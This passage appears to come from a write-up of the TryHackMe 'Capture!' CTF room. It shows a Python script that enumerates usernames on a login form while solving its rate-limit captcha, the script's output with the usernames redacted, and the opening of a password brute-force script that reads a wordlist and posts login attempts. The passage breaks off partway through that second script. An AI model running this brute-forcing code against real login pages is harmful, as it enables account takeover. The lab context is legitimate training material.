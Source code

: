 ```py
    usernameWordlist = 'usernames.txt'
    bruteforcer = Bruteforcer(url, usernameWordlist)

    bruteforcer.enumerateUsername()
```

> Note: I tried to implement the multithreading, but failed...

The above script will first send a POST request to `/login` with the `username`, if we're rate limited, solve the captcha first. After solved the captcha, send a POST request again with the same username.

**If `does not exist` doesn't exist, we found a valid username:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Capture!)-[2023.05.12|17:24:16(HKT)]
└> python3 enum_username.py
[+] Found valid username: {Redacted}         ({Redacted}/878)
[*] Trying username: {Redacted}               ({Redacted}/878)
```

Nice! We found it!!

**Now, what if I entered a valid username but invalid password?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Capture/images/Pasted%20image%2020230512173809.png)

It responses "**Error:** Invalid password for user '{Redacted}'"!

**Then, we can brute force it's password!**
```py
#!/usr/bin/env python3
import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup
import re
import sympy

class Bruteforcer:
    def __init__(self, url, username, passwordWordList):
        self.url = url
        self.username = username
        self.passwordWordList = passwordWordList

    def enumeratePassword(self):
        listPasswords = self.readFile()
        listPasswordsLength = len(listPasswords)
        for index, password in enumerate(listPasswords):
            print(f'[*] Trying password: {password:20s} ({index + 1}/{listPasswordsLength})', end='\r')
            self.enumeratePasswordRequest(password)

    def readFile(self):
        listPasswords = list()
        try:
            with open(self.passwordWordList, 'r') as file:
                for line in file:
                    password = line.strip()
                    listPasswords.append(password)

                return listPasswords
        except FileNotFoundError:
            print(f'The file {self.passwordWordList} doesn\'t exist.')

    def enumeratePasswordRequest(self, password):
        payload = {
            'username': self.username,
```